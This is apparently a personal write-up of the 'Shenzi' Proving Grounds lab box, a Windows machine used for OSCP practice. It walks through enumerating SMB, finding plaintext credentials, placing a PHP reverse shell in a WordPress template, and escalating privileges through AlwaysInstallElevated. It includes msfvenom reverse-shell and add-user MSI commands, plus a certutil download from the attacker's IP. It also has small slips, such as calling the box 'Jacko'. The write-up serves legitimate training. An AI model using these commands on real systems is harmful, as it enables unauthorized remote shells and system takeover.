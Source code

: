 ```yaml
---
layout: writeup
title: Shenzi - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Shenzi Box from Proving Grounds
image: # /assets/images/Shenzi/Shenzi1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi, AlwaysInstallElevated, .msi]
---
```


Today I'm doing a writeup for a [Proving Grounds](https://www.offsec.com/labs/) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Jacko, and it is rated Intermediate by Proving Grounds and Hard by the community. As usual, we get started with an nmap (`sudo nmap -A -sC -v -p- --open 192.168.229.55 -oN nmap`) which (gives more detail but) shows these open ports:

```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

Before jumping into the web ports, I check for anonymous login on FTP and SMB. I can't authenticate to FTP, but I can use the SMB share `Shenzi` and find some goodies. 
![Shenzi1.png](/assets/images/Shenzi/Shenzi1.png){: .center-aligned width="600px"}

The passwords.txt file contains these lines:
```
5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

That could be something. The passwords.txt file also says the creds for the MySQL service are `root: `, but I think that's default. Plus I can't use it to log in remotely. I then see this in the readme_en.txt file:

```
4) WEBDAV:

   User: xampp-dav-unsecure
   Password: ppmax2011
```

I'm not sure if that's a default setting, but it's something to keep an eye on. I google the contents of the why.tmp file, and it looks like this is in a default file in the `xampp\tmp\` directory for `xampp`, which could be good information. 

At that point I check the web ports, particularly 80 and 443. Both show the default page for XAMPP (though only when requesting `https://$IP`, simply appending `:443` shows an error page.) 
![Shenzi2.png](/assets/images/Shenzi/Shenzi2.png){: .center-aligned width="600px"}

I run a directory search on both ports, but I don't find much. Clicking around I find the `/dashboard/phpinfo.php` page which shows that the user is `shenzi`. I don't see much else in this page, but maybe I can do something with the creds I found, potentially even substituting `shenzi` for `admin` if I can't get anything for `admin`. 

![Shenzi3.png](/assets/images/Shenzi/Shenzi3.png){: .center-aligned width="600px"}

I can't find anything with the creds, so I go back over all of the ports and attempt to find something I miss, but I can't. At that point I try to brute force directories again, keeping in mind that there should be some kind of wordpress service, because we did clearly find evidence of it in the passwords.txt file. The key here is to try `/shenzi` as a directory. We won't find any evidence of this, but that's the next step. It's important to keep in mind that these lab boxes *are* exploitable, so if we can't find anything, it may be time to guess something relatively easy. 

![Shenzi4.png](/assets/images/Shenzi/Shenzi4.png){: .center-aligned width="600px"}

We can visit the login page at `http://192.168.239.55/shenzi/wp-login` and log in with the found credentials of `admin:http://192.168.239.55/shenzi/wp-login`. There are a few different paths to take at this point, but one of the simplest is to go to Appearance -> Theme Editor -> 404 Template and change it to a PHP reverse shell like so:
![Shenzi5.png](/assets/images/Shenzi/Shenzi5.png){: .center-aligned width="600px"}

I am using the Ivan Sincek shell which is available from [revshells](revshells.com). After that we can simply set up a listener on the appropriate port and visit `http://192.168.239.55/shenzi/wp-admin/404.php` in the browser. I used port 445.

![Shenzi6.png](/assets/images/Shenzi/Shenzi6.png){: .center-aligned width="600px"}

And we have a shell for the `shenzi` user. After that I grab local.txt from the user's Desktop, check for privileges with `whoami /priv`(nothing), and download then execute winpeas. One thing that jumps out quickly is the `Checking AlwaysInstallElevated` section which says that permission is set to 1 in both HKLM and HKCU. 

![Shenzi7.png](/assets/images/Shenzi/Shenzi7.png){: .center-aligned width="600px"}

Per [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) "If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) `*.msi` files as `NT AUTHORITY\SYSTEM`". Fortunately, we can create a .msi file using msfvenom, transfer it to the target machine using `certutil`, and execute it (after starting a listener). 
- From kali - `msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.240 lport=443 -f msi > shell443.msi`
- From target - `certutil -f -split -urlcache http://192.168.45.240/shell443.msi`
- From target - `.\shell443.msi`

![Shenzi8.png](/assets/images/Shenzi/Shenzi8.png){: .center-aligned width="600px"}

And we catch the shell with the `nt authority\system` shell and are able to check the proof.txt file on the Administrator Desktop. Simple as. 

### Lessons Learned
It's a pretty simple box. Really the only two things to take note of here are:
- Make sure to use names you find to guess with. This one was a bit annoying because I feel like it's probably not all that realistic. It's a bit CTF-y to have a hidden wordpress site within a directory, especially one we have no other references to. I guess we did find creds that were explicitly for a wordpress site. Idk. I suspect this is the only reason that the Proving Grounds community rated this Hard instead of Easy. 
- When you have the appropriate `AlwaysInstallElevated` permissions, you can use a .msi file to your advantage. I used a reverse shell, but there are other possibilities such as using it to create a new user. This is explicitly called out on the linked [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) page, and it looks like this: `msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi` for example. 

### Remediation Steps
- Get the password file off of the SMB server. It shouldn't be in plaintext anywhere, but it certainly shouldn't be publicly accessible. 
- The SMB server should require authentication. 
- Disable the AlwaysInstallElevate permissions for the shenzi user. Maybe there could be a reason for this, but it shouldn't be available for a user hosting the wordpress site. 